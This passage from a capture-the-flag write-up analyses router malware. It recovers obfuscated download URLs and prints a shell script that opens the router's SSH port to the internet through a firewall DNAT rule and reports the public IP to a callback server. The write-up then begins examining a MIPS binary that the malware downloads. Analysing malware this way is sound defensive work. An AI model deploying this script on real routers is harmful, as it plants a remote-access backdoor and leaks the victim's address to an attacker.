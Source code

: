 
Note the `Swap Endianness` in the recipe! Similarly, we deobfuscate the rest of the strings and we are left with (key length is 32 bytes):

```txt
http://configs.router.htb:8817/reanimate.sh_jEzOWMtZTUxOS00 -> /tmp/reanimate.sh
http://configs.router.htb:8817/dead_reanimated_mNmZTMtNjU3YS00 -> /tmp/dead_reanimated
```

We now can request these files from the docker instance! (Make sure you append the hostname into the `/etc/hosts` so it resolves to the docker instance's IP address)


Let's check the `reanimate.sh` script:

```sh
#!/bin/sh

WAN_IP=$(ip -4 -o addr show pppoe-wan | awk '{print $4}' | cut -d "/" -f 1)
ROUTER_IP=$(ip -4 -o addr show br-lan | awk '{print $4}' | cut -d "/" -f 1)

CONFIG="config redirect         \n\t
	option dest 'lan'           \n\t
	option target 'DNAT'        \n\t
	option name 'share'         \n\t
	option src 'wan'            \n\t
	option src_dport '61337'    \n\t
	option dest_port '22'       \n\t
	option family 'ipv4'        \n\t
	list proto 'tcpudp'         \n\t
	option dest_ip '${ROUTER_IP}'"

echo -e $CONFIG >> /etc/config/firewall
/etc/init.d/firewall restart

curl -X POST -H "Content-Type: application/json" -b "auth_token=SFRCe1owbWIxM3NfaDR2M19pbmY" -d '{"ip":"'${WAN_IP}'"}' http://configs.router.htb:8817/reanimate
```

It starts by defining two variables `WAN_IP` and `ROUTER_IP` which are populated with the IP addresses of the `pppoe-wan` and `br-lan` iterfaces. `pppoe-wan` means `Point to Point Protocol` and it's used when a router performs a `ppp` call to the ISP using the provided credentials, through a modem and assigns itself a public IP address. 

The `br-lan` interface is a default interface on `OpenWrt` routers because the firmware gives the ability to have different `VLANS` on each Ethernet Port.

The next `CONFIG` variable is a string that is being `echo`ed in the firewall configuration at `/etc/config/firewall`. It forwards the SSH port of the router to the `WAN` at port `61337`! The SSH port is now accessible from anywhere!

Finally, it makes a request to the callback server with the Public IP as payload and a `base64` string as a cookie. If we decode that string, it's the first part of the flag!

Moving on to the second file:

```sh
$ file dead_reanimated

dead_reanimated: ELF 32-bit LSB executable, MIPS, MIPS32 rel2 version 1 (SYSV), dynamically linked, interpreter /lib/ld-musl-mipsel-sf.so.1, with debug_info, not stripped
```
